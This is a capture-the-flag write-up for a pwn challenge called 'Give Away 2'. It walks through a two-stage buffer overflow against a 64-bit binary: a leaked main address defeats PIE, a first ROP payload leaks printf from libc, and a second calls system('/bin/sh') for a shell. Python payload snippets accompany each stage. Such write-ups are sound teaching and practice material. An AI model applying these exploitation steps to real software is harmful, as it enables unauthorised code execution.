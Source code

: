 # Give Away 2

- Genre Pwn  

By examining the binary I found the followings  
```sh
file give_away_2 
give_away_2: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5c93b7c4ff1a036cb291045d3ab76155d22ce1a6, not stripped
checksec give_away_2
[*] 'give_away_2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
So this was a 64 bit binary, and NX was enabled.  
To see what this binary did I ran this locally.  
```sh
./give_away_2
Give away: 0x5628b79f7864
test
``` 
It displayed an address of something, then accepted user input and terminated.  
I tried to find out what this address was by gdb.  

![image](https://user-images.githubusercontent.com/53568647/86327027-eb258b80-bc85-11ea-9496-2488462147f1.png)

By investigating the address, I found that it was an address of main function. Since Full RELRO was seen in this binary, .got.plt was not available.   
That being said, I could use this 'give away address' to find out the addresses which were required to build ROP chain.  


At this point, my strategy was to create a rop chain by using __'pop rdi;ret' > printf GOT address > printf in main function__  
Once printf in main function was called, vuln function would be called after leaking address of printf. Then another input would be possible, so that I could inject secound payload to call /bin/sh.  

## First BoF
First thing I had to do was to create rop gadget.  
```sh
rp -r 1 -f give_away_2 | grep rdi
0x0000094f: add byte [rbp+rdi*8-0x01], bh ; jmp qword [rax+rax+0x00] ;  (1 found)
0x0000093f: add byte [rbp+rdi*8-0x01], cl ; call qword [rax+rax-0x02A40000] ;  (1 found)
0x00000903: pop rdi ; ret  ;  (1 found)
```
I found there was pop rdi at 0x903. I confirmed ASLR was enabled and 3 digits on the right hand side would not change by running:
```sh
ldd give_away_2 
	linux-vdso.so.1 (0x00007ffcc9a8e000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f63dd32a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f63dd70e000)
ldd give_away_2 
	linux-vdso.so.1 (0x00007ffdf456e000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f56a8d5a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f56a913e000)
ldd give_away_2 
	linux-vdso.so.1 (0x00007ffc7b1db000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcdf0867000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fcdf0c4b000)
```
Since I could get the main address from the output, I could use it to determine the address of pop rdi as well.  

printf function was found in main function, and from gdb session I could confirm that the address was 0x880, which started from mov eax, 0x0.   

![image](https://user-images.githubusercontent.com/53568647/86327024-e95bc800-bc85-11ea-86b4-6520122b5f9f.png)


I also needed to find the right size of buffer to cause overflow. I used pattern_create and pattern_offset of gdb-peda.  

![image](https://user-images.githubusercontent.com/53568647/86327035-ecef4f00-bc85-11ea-9de3-3b223d7fb115.png)

so now, my first payload was:

```sh
padding = 40
payload = b'A' * padding
payload += p64(gadget)
payload += p64(printf_got)
payload += p64(printf_plt)
```

## Second BoF
The first BoF could leak the printf address, and I could calcurate libc address by subtracting the offset of printf from leaked address.  
By combining ROP chain again, I could call system and /bin/sh to get a shell.  
So the payload should be __'pop rdi: ret' > /bin/sh > system__. However, it was important to align the stack for this payload , so that it could read the function correctly. I added 'ret' in front of of 'pop rdi; ret' to fix the alignment. 'ret' was sitting next to 'pop rdi', so the address of ret was next to the gadget address.  
My second payload was:
```sh
payload = b'A' * padding
payload += p64(gadget+1)
payload += p64(gadget)
payload += p64(sh_address)
payload += p64(sys_address)
```
## Spawn a shell
I collected all the required addresses so I was good to go and ran the exploit to get a shell.  

![image](https://user-images.githubusercontent.com/53568647/86327039-eeb91280-bc85-11ea-8b45-be5e90d7a84e.png)

shkCTF{It's_time_to_get_down_to_business}

__NOTE__  
I spent a lot of time for the first BoF part, because I used 0x690 as the printf-plt address. Calling printf directly would ignore 'mov eax, 0x0' and it caused error inside of printf function. I used gdb to find out the error and understood that I should not have skipped the 'mov eax 0x0' part.  
